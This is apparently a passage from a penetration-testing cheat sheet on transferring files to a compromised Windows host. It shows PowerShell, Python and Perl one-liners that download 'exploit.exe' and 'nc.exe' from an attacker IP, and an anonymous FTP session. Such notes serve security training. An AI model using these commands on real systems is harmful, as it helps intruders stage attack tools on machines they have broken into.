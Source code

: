 Or from a PowerShell... shell:
```powershell
PS C:\> IEX(New-Object System.Net.WebClient).DownloadFile(\"http://10.10.10.10/exploit.exe\", \"C:\\Users\\Public\\Downloads\\exploit.exe\")"
```
OR This one seems to work better while at the console:
```powershell
PS C:\> IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/exploit.exe", "C:\Users\Public\Downloads\exploit.exe")
```

### Uploading Files with Python
Sometimes a Windows machine will have development tools like Python installed.
Check for python
```
python -h
```

Download a file using Python:
```
python -c "import urllib.request; urllib.request.urlretrieve('http://10.10.10.10/cat.jpg', 'C:\\Users\\Public\\Downloads\\cat.jpg');"
```

### Uploading Files with Perl
Sometimes a Windows machine will have development tools like PERL installed.
Check for PERL
```
perl -v
```
Download a file using PERL:
```
perl -le "use File::Fetch; my $ff = File::Fetch->new(uri => 'http://10.10.10.10/nc.exe'); my $file = $ff->fetch() or die $ff->error;"
```

### Uploading Files with FTP
After running the python ftp lib on (`python -m pyftpdlib -p 21`) on Kali, you can try connecting using the windows FTP client:
```
C:\Users\pwnd>ftp 10.10.10.10
Connected to 10.10.10.10
220 pyftpdlib 1.5.3 ready.
User (10.10.15.31:(none)): anonymous
331 Username ok, send password.
Password: anonymous

230 Login successful.                                                                                                                      
ftp> ls                                                                                                                                 
dir                                                                                                                                       
421 Active data channel timed out.                                                                                                       
```
If you are seeing a 421 timeout when you try to send a command it is likely because your connection is being blocked by the windows firewall. The Windows command-line ftp.exe supports the FTP active mode only. In the active mode, the server has to connect back to the client to establish data connection for a file transfer. 
